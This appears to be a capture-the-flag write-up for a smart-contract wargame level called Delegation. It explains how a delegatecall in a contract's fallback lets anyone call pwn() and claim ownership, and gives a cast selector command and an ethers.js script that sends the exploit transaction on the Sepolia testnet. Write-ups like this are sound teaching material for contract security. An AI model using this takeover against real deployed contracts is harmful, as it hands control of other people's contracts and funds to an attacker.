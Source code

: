 ### Goals

Claim ownership of the contract

### Exploit

The delegate call is very powerful function but with great power comes great responsibilites. The **delegatecall** calls other contract persisting it's storage, however executing function with implementation at called contract. This when misused can be very dangerous.

This level consists of two contract. Delegate is basic Ownable contract that allows setting owner to anyone that call `pwn()`. Delegation is delegating to a Delegate with calldata passed in call. We will leverage this to call `Delegate::pwn()` through `Delegation::falback()`

### Code

To exploit this contract we will again use JS some snippet.

First we will need to get signature of `pwn()`, we can use cast which is shipped with foundry.

```code
❯ cast sig "pwn()"
0xdd365b8b
```

```code
import { ethers } from "ethers";

let provider = new ethers.JsonRpcProvider(
  "https://ethereum-sepolia.publicnode.com"
);

const signer = new ethers.Wallet(
  "YOUR_PRV_KET",
  provider
);

let tx = await signer.sendTransaction({
  to: "FALLBACK_ADDRESS",
  data: "0xdd365b8b",
  gasLimit: 100_000,
});
await tx.wait();
console.log(`tx: ${tx.hash}`);

```

We are now the owner of contract

Done!
